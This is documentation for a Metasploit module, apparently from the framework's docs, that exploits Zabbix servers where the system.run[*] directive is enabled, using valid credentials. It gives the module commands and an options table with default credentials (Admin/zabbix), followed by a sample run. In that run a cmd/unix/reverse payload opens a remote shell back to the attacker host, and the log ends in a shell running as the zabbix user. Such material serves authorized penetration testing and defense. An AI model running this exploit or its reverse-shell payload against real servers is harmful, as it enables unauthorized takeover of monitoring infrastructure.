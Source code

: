 ## Vulnerable Application

Zabbix server allow remote command execution to happen with the directive `AllowKey=system.run[*]` [[1]](https://blog.zabbix.com/zabbix-remote-commands/7500/#system.run), this directive is disabled by default, if an attacker already know Zabbix credentials and the directive is enabled, he can abuse this functionnality to take control over the Zabbix server.

## Verification Steps

  1. Do: ```use exploit/multi/http/zabbix_script_exec_5_0```
  2. Do: ```set PASSWORD ...```
  3. Do: ```set USERNAME ...```
  4. Do: ```set RHOSTS ...```
  5. Do: ```set payload ...```
  6. Do: ```set LHOST ...```
  7. Do: ```run```

## Options

  PASSWORD          zabbix           yes       Password to authenticate with
  Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS            10.0.0.4         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT             80               yes       The target port (TCP)
  SSL               false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI         /zabbix/         yes       The URI of the Zabbix installation
  TLS_PSK                            no        The TLS PSK
  TLS_PSK_IDENTITY                   no        The TLS identity
  USERNAME          Admin            yes       Username to authenticate with
  VHOST                              no        HTTP server virtual host

## Scenarios

```
RHOSTS => 10.0.0.4
payload => cmd/unix/reverse
LHOST => eth0

[*] Started reverse TCP double handler on 10.0.0.5:4444 
[+] Succesfully connected on Zabbix !
[*] Getting SID...
[*] Getting a valid group id...
[*] Creating a host named: yFylmVzGEyuXoPShpM
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo zHUHPwNyZ6vugM7N;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "zHUHPwNyZ6vugM7N\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 5 opened (10.0.0.5:4444 -> 10.0.0.4:56530 ) at 2022-01-01 23:22:22 +0000

id
uid=111(zabbix) gid=117(zabbix) groups=117(zabbix)
```